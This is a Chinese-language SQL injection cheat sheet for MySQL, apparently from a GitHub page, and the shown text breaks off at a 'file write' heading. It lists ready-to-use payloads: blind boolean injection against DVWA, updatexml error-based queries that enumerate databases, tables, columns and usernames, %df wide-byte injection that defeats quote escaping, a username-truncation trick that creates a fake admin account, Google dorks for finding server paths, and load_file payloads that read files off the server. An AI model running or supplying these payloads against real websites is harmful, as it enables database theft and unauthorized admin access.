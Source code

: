   `1' and ascii(substr((select user from dvwa.users limit 0,1),1,1))=97 # `



## Mysql显错注入
### （1）列数据库名
* 查看数据库名，修改limit后的数字0，可以查看每一个数据库名
   `' and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e),1)--+`
* 查看当前数据库名
  `' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+`
### （2）列表名
* 列出当前数据库的表名，修改limit后的0，可以查看数据库中每一个表名
  `' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='要查找的数据库名' limit 0,1),0x7e),1)--+`
### （3）列出列名
* 列出当前表的列名，修改limit后的0，可以查看表中每一个列名
  `' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='要查找的表名' limit 0,1),0x7e),1)--+`
### （4）列出信息
* 列出user表中第一个username，修改limit后的0，可以列出第二个
  `' and updatexml(1,concat(0x7e,(select username from user limit 0,1),0x7e),1)--+ `     
  *当字符列无法爆出信息时，则可以使用hex()函数将爆出的信息转换为16进制，则可以爆出  union select 1,group_concat(hex(username)),3,4 from manage_user*



## mysql宽字节注入
### （1）使用条件
* 当输入1'时发现点也被转义，以ascii字符显示出来时，可以采用宽字节注入绕过过滤
### （2）使用宽字节注入
* 前提：输入的'号被\进行转义，无法报错
* 则可以使用宽字节注入，’号前加上%df
*有时宽字节无法注入，可能是目标系统脚本使用utf-8编码，只有gbk编码才可以注入*



## mysql长字节截断攻击
### （1）条件
* 管理员和普通用户在一个表中
  用户名有一定长度限制，当普通用户注册时使用
  `admin+++++++++++++++++`，注册用户名时由于长度超过限制，会自动截断，变成admin，这样相当于增加了一个管理员账号



## Mysql权限利用
### （1）获取根目录
* 报错显示
* 谷歌黑客
* site:目标网站 warning
* 遗留文件 phpinfo info test php
* 漏洞爆路径
* 读取配置文件
### （2）文件读取
* 要使用hex转换路径，否则会被转义
  `id=-1 union select 1,load_file(hex('要读取文件的路径')),2,3`
  *load_file()函数，该函数是用来读取源文件的函数，只能读取绝对路径的网页文件，在使用load_file()时应先找到网站绝对路径*
### （3）文件写入